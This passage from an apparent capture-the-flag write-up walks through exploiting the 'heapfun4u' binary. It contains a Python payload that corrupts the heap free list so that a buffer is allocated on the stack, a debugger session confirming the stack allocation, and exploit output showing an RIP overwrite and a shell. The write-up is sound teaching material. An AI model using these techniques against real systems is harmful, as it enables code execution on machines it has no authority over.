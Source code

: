 So now, we can point `head_free_list_ptr` to a location we fully control. All we
need to write at this address a large value, for example 0x1000 so that when
inspecting this address, `allocate_buffer()` will believe the buffer in the stack
is large enough for the new allocation:

{% highlight python %}
padd = 'D'*126 + p64(0x1000) + 'B'*8 + 'C'*8
free(s, "2" + "\0" + padd)

allocate(s, 512)
{% endhighlight %}

We have now an allocation in stack:
{% highlight bash %}
[A]llocate Buffer
[F]ree Buffer
[W]rite Buffer
[N]ice guy
[E]xit
| W
1) 0x7f06cd628008 -- 128
2) 0x7f06cd628090 -- -1
3) 0x7f06cd628098 -- 10
4) 0x7fffffffe458 -- 512
^C
gef➤  xinfo 0x00007fffffffe458
────────────────────────────────────────────────────[ xinfo: 0x7fffffffe458 ]──────────────────────────────────────
Found 0x00007fffffffe458
Page: 0x00007ffffffde000 → 0x00007ffffffff000 (size=0x21000)
Permissions: rw-
Pathname: [stack]
Offset (from page): +0x20458
Inode: 0
{% endhighlight %}

This means that we have transformed it into a regular stack overflow, simply by
writing at the newly allocated address 0x7fffffffe458. Since, when allocating a
new buffer, `heapfun4u` calls `mmap()` with Read|Write|Execute, we have plenty
to location to drop our shellcode and jump to it.

This completes our execution steps.

#### Pwn ! ####

Run the
[exploit code](https://gist.github.com/hugsy/892495d2299189db06517ff9a0b6249b):

{% highlight bash %}
~/cur/heapfun4u $ ./heapfun4u.py
[+] Connected to 172.28.128.4:3957
Attach with GDB and hit Enter
[+] rbp = 0x7ffc8c5d7ca0
[+] rsp = 0x7ffc8c5d7c40
[+] 1st allocation ok
[+] 2nd allocation ok
[+] 3rd allocation ok
[+] Leaked mmap-ed areas: 0x7f9c522fd008
[+] Free(#3) ok
[+] Free(#2) ok
[+] Overwriting pointer ok
[+] Stack pivot ok
[+] Overwriting rip ok
[+] Trigger return to 7f9c522fd008
[+] Switching to interactive...
